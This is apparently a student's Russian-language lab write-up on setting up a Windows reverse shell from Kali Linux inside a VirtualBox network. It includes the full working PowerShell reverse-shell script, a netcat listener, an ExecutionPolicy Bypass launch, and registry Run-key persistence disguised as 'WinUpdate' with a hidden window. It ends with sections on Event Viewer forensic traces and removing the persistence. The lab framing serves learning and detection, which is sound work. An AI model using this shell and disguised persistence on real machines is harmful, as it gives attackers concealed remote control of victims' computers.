








# Windows Reverse Shell Lab (Kali → Windows)

## Цель работы

В данной лабораторной работе была настроена связь между Kali Linux и Windows VM внутри одной NAT Network в VirtualBox. После проверки connectivity был создан и протестирован PowerShell reverse shell без использования административных привилегий.

Также была выполнена базовая persistence через реестр Windows и проверена возможность удаления следов persistence.

---

# Используемая схема

- Kali Linux — атакующая машина
- Windows 11 — целевая машина
- VirtualBox NAT Network
- Listener: Netcat
- Payload: PowerShell reverse shell

---

# Проверка сети

Сначала была проверена сетевая доступность между машинами.

## Windows → Kali

На Windows:

```powershell
ipconfig
ping 10.0.2.15
```

Результат:
- Windows получила IP `10.0.2.4`
- Kali получила IP `10.0.2.15`
- ping проходил успешно



---

# Подготовка reverse shell payload

На Windows был создан PowerShell script `shell.ps1`.

Содержимое файла:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.0.2.15',4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){
$data = (New-Object System.Text.ASCIIEncoding).GetString($bytes,0,$i);
$sendback = (iex $data 2>&1 | Out-String);
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}

$client.Close()
```

Payload создаёт TCP соединение с Kali listener и позволяет выполнять команды удалённо через PowerShell.



---

# Проверка TCP connectivity

Перед запуском payload была проверена TCP доступность порта 4444.

На Kali:

```bash
nc -lvnp 4444
```

На Windows:

```powershell
Test-NetConnection 10.0.2.15 -Port 4444
```

Результат:
- TCP соединение успешно устанавливалось
- listener принимал подключение



---

# Запуск reverse shell

Payload был запущен на Windows:

```powershell
powershell -ExecutionPolicy Bypass -file .\Desktop\shell.ps1
```

После запуска Kali listener получил callback от Windows VM.



---

# Выполнение команд через reverse shell

После получения shell были выполнены команды:

```powershell
whoami
ipconfig
```

Результат:
- удалось получить имя пользователя Windows
- удалось получить сетевую конфигурацию
- shell работал интерактивно

Полученный пользователь:

```text
desktop-krkd4ge\user
```



---

# Persistence через Windows Registry

Для persistence был использован раздел:

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

Был добавлен ключ автозапуска payload при логине пользователя.

Пример команды:

```powershell
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v WinUpdate /t REG_SZ /d "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -file C:\Users\user\Desktop\shell.ps1"
```

После reboot Windows listener на Kali снова получил callback, что подтвердило работу persistence.



---

# Forensic artifacts

После работы payload были проверены следы в Windows Event Viewer.

Были обнаружены записи PowerShell Operational Logs:

- Event ID 4104
- Script Block Logging
- выполнение PowerShell payload

Это показывает, что PowerShell activity оставляет forensic traces даже без использования admin privileges.



---

# Удаление persistence

Persistence была удалена вручную через registry.

Команда удаления:

```powershell
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v WinUpdate /f
```

После этого был выполнен:

```powershell
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

Ключ persistence больше не отображался.



---

# Что было изучено

В ходе лабораторной работы были изучены:

- NAT Network в VirtualBox
- TCP connectivity между VM
- Netcat listener
- PowerShell reverse shell
- ExecutionPolicy Bypass
- Windows Registry persistence
- Event Viewer forensic traces
- удаление persistence
- удалённое выполнение команд через reverse shell

---

# Вывод

В данной лабораторной работе удалось успешно настроить reverse shell между Kali Linux и Windows VM без использования административных привилегий.

Была подтверждена возможность:
- удалённого выполнения команд
- получения сетевой информации
- настройки persistence через Registry
- обнаружения PowerShell активности через Windows logs

Работа показала базовые техники post-exploitation и persistence внутри Windows environment.
````
